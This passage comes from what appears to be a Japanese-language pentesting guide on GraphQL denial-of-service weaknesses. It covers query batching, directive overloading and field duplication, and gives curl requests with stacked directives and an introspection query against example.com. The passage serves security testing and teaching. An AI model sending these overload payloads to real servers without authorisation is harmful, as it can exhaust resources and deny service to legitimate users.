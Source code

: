この例では、10の異なるクエリが1つのリクエストにバッチ処理され、サーバーにすべてを同時に実行させることを強制します。より大きなバッチサイズや計算コストの高いクエリで悪用されると、サーバーが過負荷になります。

### **ディレクティブオーバーローディング脆弱性**

**ディレクティブオーバーローディング**は、GraphQLサーバーが過剰で重複したディレクティブを持つクエリを許可する場合に発生します。これは、サーバーのパーサーとエグゼキュータを圧倒する可能性があり、特にサーバーが同じディレクティブロジックを繰り返し処理する場合に顕著です。適切な検証や制限がない場合、攻撃者は多数の重複ディレクティブを持つクエリを作成することで、計算またはメモリ使用量を高め、**サービス拒否（DoS）**を引き起こすことができます。

{% code overflow="wrap" %}
```bash
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "User-Agent: graphql-cop/1.13" \
-H "Content-Type: application/json" \
-d '{"query": "query cop { __typename @aa@aa@aa@aa@aa@aa@aa@aa@aa@aa }", "operationName": "cop"}' \
'https://example.com/graphql'
```
{% endcode %}

前の例では、`@aa`は**宣言されていない可能性がある**カスタムディレクティブであることに注意してください。通常存在する一般的なディレクティブは**`@include`**です：

{% code overflow="wrap" %}
```bash
curl -X POST \
-H "Content-Type: application/json" \
-d '{"query": "query cop { __typename @include(if: true) @include(if: true) @include(if: true) @include(if: true) @include(if: true) }", "operationName": "cop"}' \
'https://example.com/graphql'
```
{% endcode %}

宣言されたすべてのディレクティブを発見するために、イントロスペクションクエリを送信することもできます:
```bash
curl -X POST \
-H "Content-Type: application/json" \
-d '{"query": "{ __schema { directives { name locations args { name type { name kind ofType { name } } } } } }"}' \
'https://example.com/graphql'
```
そして**いくつかのカスタム**を使用します。

### **フィールド重複脆弱性**

**フィールド重複**は、GraphQLサーバーが同じフィールドを過剰に繰り返すクエリを許可する脆弱性です。これにより、サーバーは各インスタンスのためにフィールドを冗長に解決する必要があり、重要なリソース（CPU、メモリ、データベース呼び出し）を消費します。攻撃者は、数百または数千の繰り返されたフィールドを持つクエリを作成することができ、高負荷を引き起こし、最終的には**サービス拒否（DoS）**につながる可能性があります。
```bash
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "User-Agent: graphql-cop/1.13" -H "Content-Type: application/json" \
```